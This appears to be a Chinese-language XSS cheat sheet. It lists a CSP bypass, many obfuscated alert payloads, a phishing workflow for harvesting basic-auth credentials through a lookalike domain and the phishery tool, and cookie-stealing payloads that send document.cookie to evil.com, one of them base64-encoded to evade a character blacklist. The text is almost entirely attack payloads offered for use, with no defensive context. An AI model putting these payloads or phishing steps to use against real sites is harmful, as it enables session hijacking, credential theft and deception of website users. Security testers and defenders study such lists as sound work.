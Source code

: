 #### CSP BYPASS

```text
script-src self: <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

#### 常用的payload

* `svg/onload`
* `'-alert(1)-'`
* `eval(atob('YWxlcnQoMSk='))`
* `<iMg SrC=x OnErRoR=alert(1)>`
* `<div onmouseover="alert('XSS');">`

  `</Textarea/</Noscript/</Pre/</Xmp><Svg /Onload=confirm(document.domain)>`

* ``x@x.com<--`<img/src=` onerror=alert(1)> --!>``
* `""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]][(''+{})[5]+(''+{})[1]+((""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]])+"")[2]+(!1+'')[3]+(!0+'')[0]+(!0+'')[1]+(!0+'')[2]+(''+{})[5]+(!0+'')[0]+(''+{})[1]+(!0+'')[1]](((!1+"")[1]+(!1+"")[2]+(!0+"")[3]+(!0+"")[1]+(!0+"")[0])+"(1)")()`
* `oNcliCk=alert(1)%20)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>%5Cx3csVg/<img/src/onerror=alert(2)>%5Cx3e`

#### AUTH CRED

遇到http-only的时候： 使用钓鱼的基本身份验证获取其凭据 

1. 注册一个和目标类似的域名 

2. [https://github.com/ryhanson/phishery](https://github.com/ryhanson/phishery) 

3. 编译然后运行 

4. 设置payload----`<img/src/onerror=document.location="https://evil.com/">` 

5. 等待目标上线

可还行

 ![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181213142930.png)

#### 偷Cookie

```text
<img/src/onerror=document.location="http://evil.com:8090/cookiez.php?c="+document.cookie>
```

Blacklist bypass: 过滤了`//,:,",<和>`

```text
btoa('document.location="http://evil.com:8090/r.php?c="+document.cookie')
```

payload:

```text
eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9ldmlsLmNvbTo4MDkwL3IucGhwP2M9Iitkb2N1bWVudC5jb29raWU='))
```
